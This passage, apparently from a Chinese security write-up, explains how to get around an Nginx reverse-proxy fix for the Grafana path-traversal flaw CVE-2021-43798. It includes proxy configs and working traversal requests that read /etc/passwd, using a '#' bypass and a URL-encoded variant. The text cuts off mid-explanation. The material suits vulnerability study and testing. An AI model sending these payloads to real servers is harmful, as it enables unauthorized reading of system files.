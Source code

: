 ## 3.3 Nginx 400绕过
- 来自[斗象智能安全](https://blog.riskivy.com/grafana-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E6%B1%87%E6%80%BBcve-2021-43798/)

目前已经部署的 `Grafana` 会有很多被 `nginx/apache` 等中间件反向代理的情况，有的中间件的 [URI_normalization](https://en.wikipedia.org/wiki/URI_normalization) 机制导致 URL 被标准化。

如果使用目标站点是存在漏洞版本但是无法利用成功，那么可能是使用了Nginx代理转发进行了漏洞的修复。

即发送正常 `payload` ，出现400响应，且同时发现中间件为 `nginx` 的情况下，考虑 `nginx` 反代环境中的绕过姿势：

```
# proxy_grafana.conf

server {
    listen         8081;
    server_name    127.0.0.1;
    charset        utf-8;
    location / {
        proxy_pass http://192.168.1.100:3000;
    }
}
```

- 在插件名后添加 `#` 进行绕过，可成功任意文件读取。
```
# BurpSuite

GET /public/plugins/testPluginName/#/../../../../../../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: CVE-2021-43798
Connection: close
Upgrade-Insecure-Requests: 1
```

或者 `GET /public/plugins/alertGroups/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

- 当 `proxy_pass` 的 `url` 结尾加 `/` 时，再使用上面的 `#` 绕过方式会出现 `302` 跳转。
```
# proxy_grafana.conf

server {
    listen         8081;
    server_name    127.0.0.1;
    charset        utf-8;
    location / {
        proxy_pass http://192.168.1.100:3000/;
    }
}
```

原因如下：

🔗 参考 https://xmanyou.com/nginx-proxy_pass-details/

-  如果 `proxy_pass` 指令中包含 `URI`，也就是带 `/` 
